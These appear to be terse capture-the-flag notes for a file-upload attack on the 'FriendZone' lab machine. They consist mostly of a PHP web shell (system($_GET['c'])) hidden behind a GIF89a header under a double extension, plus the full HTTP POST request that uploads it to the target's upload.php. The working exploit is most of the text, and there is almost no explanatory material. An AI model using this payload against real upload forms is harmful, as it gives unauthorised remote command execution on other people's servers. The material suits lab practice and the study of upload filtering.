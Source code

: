 ![](2021-01-27-15-18-59.png)




https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/
Content-Disposition: form-data; name=”myFile”; filename=”payload.php.gif”
Content-Type: image/gif

GIF89a;
<?php system($_GET[‘c’]);?>



https://uploads.friendzone.red/upload.php

```
POST /upload.php HTTP/1.1
Host: uploads.friendzone.red
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------110488601112522664683183253771
Content-Length: 509
Origin: https://uploads.friendzone.red
Connection: close
Referer: https://uploads.friendzone.red/
Cookie: sid=306adeac-60aa-11eb-b39a-b34250770530
Upgrade-Insecure-Requests: 1
-----------------------------110488601112522664683183253771
Content-Disposition: form-data; name="imageu"; filename="rce.php.gif"
Content-Type: image/gif
GIF89a;
<?php system($_GET[‘c’]);?>
-----------------------------110488601112522664683183253771
Content-Disposition: form-data; name="image"
-----------------------------110488601112522664683183253771
Content-Disposition: form-data; name="Upload"
Upload
-----------------------------110488601112522664683183253771--

```
